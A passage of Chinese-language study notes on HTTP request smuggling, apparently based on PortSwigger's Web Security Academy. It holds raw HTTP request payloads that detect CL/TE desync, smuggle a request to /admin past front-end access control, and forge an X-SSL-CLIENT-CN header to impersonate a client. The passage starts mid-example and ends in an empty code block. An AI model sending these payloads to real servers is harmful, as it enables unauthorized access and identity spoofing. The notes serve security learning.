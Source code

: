   ```http
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 144

  x=
  0
  ```
  - 若该类型漏洞存在，则再次发送正常的请求时，后端会将其解析为如下请求，并响应404而非200，由此可以判断漏洞性质
  ```http
  GET /404 HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 146

  x=
  0

  POST /search HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 11

  q=smuggling
  ```
# 如何利用请求走私漏洞
- 资料：https://portswigger.net/web-security/request-smuggling/exploiting
  - 本地：Exploiting HTTP request smuggling vulnerabilities _ Web Security Academy.pdf
- 前端服务器负责授权验证，后端服务器仅用于处理前端服务器传入的请求时，可以通过请求走私，将两个请求合并为一个请求，从而通过前端服务器校验，后端服务器处理时会将该请求作为两个请求分别处理，从而绕过前端服务器的权限控制，例如下述请求中/home是前端允许请求的路径，/admin是前端仅允许授权后访问的路径，通过发送下述请求，可以通过前端校验，且在后端分别执行/home和/admin两个路径的访问(前端使用cl，故将其视为一整个请求，后端使用te，故会将请求视作两个进行处理)
  ```http
  POST /home HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 62
  Transfer-Encoding: chunked

  0

  GET /admin HTTP/1.1
  Host: vulnerable-website.com
  Foo: xGET /home HTTP/1.1
  Host: vulnerable-website.com
  ```
- 前端服务器将请求转发到后端的过程中可能修改请求中的某些字段，例如增加相关请求头，此时后端服务器接收到请求后会验证此类增加的字段，若字段不正确，会导致请求无法在后端执行，故此时若想利用请求走私使得被走私的请求被后端服务器处理，需要在被走私的请求中设置前端会增加的字段，故需要弄清前端对请求进行了哪些修改，文中提到一种方式可以弄清前端修改了哪些字段  
  - 详见文章
- 使用请求走私绕过服务器对客户端的验证，实际开发过程中，用户端可能通过ssl证书验证对应服务端是否是合规的服务端，进一步的部分站点也会根据利用ssl验证发送请求的客户端的身份，主要方式是在请求中添加非标准的http请求头从而传输客户端的CN（common name）如下述请求
  ```http
  GET /admin HTTP/1.1
  Host: normal-website.com
  X-SSL-CLIENT-CN: carlos
  ```
  - 故可以在走私的请求中设置此类非标准请求头，从而绕过后端对客户端的此类验证
  ```http
  POST /example HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: x-www-form-urlencoded
  Content-Length: 64
  Transfer-Encoding: chunked

  0

  ```